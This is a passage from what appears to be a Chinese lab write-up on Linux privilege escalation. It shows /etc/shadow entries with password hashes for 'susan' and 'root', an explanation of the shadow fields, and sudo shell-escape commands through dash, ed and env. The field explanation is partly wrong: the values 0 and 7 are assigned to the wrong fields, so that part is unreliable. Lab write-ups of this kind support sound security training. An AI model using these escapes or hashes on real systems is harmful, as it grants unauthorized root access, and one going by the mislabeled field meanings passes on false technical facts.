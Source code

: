 ```text
susan:$6$5oSmml7K$0joeavcuzw4qxDJ2LsD1ablUIrFhycVoIXL3rxN/3q2lVpQOKLufta5tqMRIh30Gb32IBp5yZ7XvBR6uX9/SR/:17721:0:99999:7:::
```

查看一下`root`密码：

```text
root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXDu5Yj1:17721:0:99999:7:::
```

**用户名**：在这个例子中是 "root"，表示这是 root 用户的条目。

**密码哈希**：这个字段保存了用户的密码哈希值。在这个例子中，密码哈希是 `$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXDu5Yj1`，它是经过加密处理的密码。

**上次修改日期**：这个字段表示自1970年1月1日起，距离上次修改密码的天数。在这个例子中，它是 "17721" 天。

**密码到期前警告天数**：这个字段表示密码过期前的警告天数。在这个例子中，它是 "0" 天。

**密码过期天数**：这个字段表示密码的最大有效期。在这个例子中，它是 "99999" 天，表示密码永不过期。

**密码过期日期**：这个字段表示自1970年1月1日起，密码过期的绝对日期。在这个例子中，它是 "7" 天，表示密码永不过期。

**账户失效日期**：这个字段表示自1970年1月1日起，账户失效的绝对日期。在这个例子中，它是空的，表示账户永不失效。

**保留字段**：这些字段目前没有被使用。

### dash(bob)

```bash
sudo dash
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151411.png" alt="image-20240224224654508" style="zoom:50%;" />

### ed(bob)

```bash
sudo ed
!/bin/sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151412.png" alt="image-20240224224843707" style="zoom:50%;" />

### env(bob)

```bash
sudo env /bin/sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151413.png" alt="image-20240224225009591" style="zoom:50%;" />

### expect(bob)

> expect是一个自动化交互套件，主要应用于执行命令和程序时，系统以交互形式要求输入指定字符串，实现交互通信。
